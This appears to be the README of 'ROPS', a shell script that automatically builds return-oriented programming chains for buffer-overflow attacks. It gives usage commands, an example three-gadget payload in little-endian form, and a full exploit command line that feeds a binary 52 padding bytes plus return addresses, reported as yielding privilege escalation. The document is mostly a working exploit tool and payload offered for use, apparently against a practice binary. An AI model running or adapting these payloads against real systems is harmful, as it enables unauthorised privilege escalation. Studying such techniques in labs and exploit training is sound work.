




# ROPS

A script for the quick and automated construction of ROP (Return-Oriented Programming) chains to generate payloads for ROP attacks.

# Usage

`$ ./rops.sh`

`$ ./rops.sh /home/ayush/.binary/rop`

The script will automatically generate a valid ROP chain payload based on the provided binary file. Once the buffer overflow size is confirmed, you can use the payload generated by the script.

The payload generated by the script is automatically converted to little-endian byte order, so it can be used directly by copying.

Example payload:

`payload => BUFFER + 0xA03DE5B7 + 0xD079E4B7 + 0x0B4AF7B7`

In the GDB example, with a buffer size of 52, the payload is constructed as follows:

>/home/ayush/.binary/rop $(python2 -c 'print "A"*52 + "\xA0\x3D\xE5\xB7" + "\xD0\x79\xE4\xB7"+"\x0B\x4A\xF7\xB7"')

Successful privilege escalation

